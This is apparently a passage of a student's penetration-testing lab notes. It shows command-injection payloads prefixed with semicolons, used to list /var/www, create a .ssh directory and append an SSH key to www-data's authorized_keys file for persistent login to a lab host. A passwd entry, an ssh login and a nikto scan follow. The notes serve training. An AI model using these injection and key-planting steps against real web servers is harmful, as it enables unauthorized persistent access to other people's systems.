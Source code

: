 ```ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCnyLyyhsXRBrjshi4WbMDMQ+nZuqH3nYnEMOUwqYPU6kyVDRq3+BBQ0yWrqF7OeP0WkGnkQq15MHTwqlZVcC3L/TuRhU8jq/ABErO/WK7HB0M3DAQ6bKBsTyunUKmD7g0I9TgFb0/WRk988Q91nbx129m+KaeXu9oh6pxdtIT4XxWHZMHVngEGe8qCs1OFSpTLYb0wpcDdGtaj88QbmoiU2zgMiGgidiGyab0vLX3hRoyaxPh3xtIcopnJamistVeFCCgz0GsAikvMDiGo1RsVOmOzTqNBrosSgMH8kSrQb47agAMdp8FIuLb7Bx6mInkipL3ZT+yHCs7BXME3E34v student@linux-opstation-0yyk```
- `www-data:x:33:33:www-data:/var/www:/bin/bash`
- user			: www-data
- home directory	: /var/www
- login shell		: /bin/bash

##### 4. Determine if .ssh/ directory exists in the user's home directory; if not, create it

`;ls -la /var/www`


##### 5. Create .ssh/ directory

`;mkdir /var/www/.ssh`

##### 6. Validate the .ssh/ directory has been created

`;ls -la /var/www`

##### 7. Inject our key into the authorized_keys file

`;echo "" >> /var/www/.ssh/authorized_keys`

##### 8. Validate the public is inside the authroized_keys file

`; cat /var/www/.ssh/authorized_keys`

##### 9. Login from the workstation you generated the key from

`ssh www-data@10.50.34.125`

- Webservers default web directories:
```
http://10.50.34.125/ = /var/www/html
http://10.50.34.125/uploads = /var/www/html/uploads
```






#### c. Command injection - Information/Access
	

	
	
### NIKTO

nikto v -h 10.50.34.125

